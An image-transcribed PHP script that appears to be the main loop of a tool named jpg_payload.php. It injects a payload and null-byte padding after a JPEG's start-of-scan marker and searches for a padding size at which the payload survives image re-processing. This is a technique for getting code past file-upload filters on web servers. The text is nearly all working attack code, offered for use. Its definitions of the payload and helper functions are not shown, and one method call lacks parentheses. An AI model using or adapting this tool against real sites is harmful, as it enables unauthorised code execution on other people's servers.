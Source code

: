 ```php
    
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
```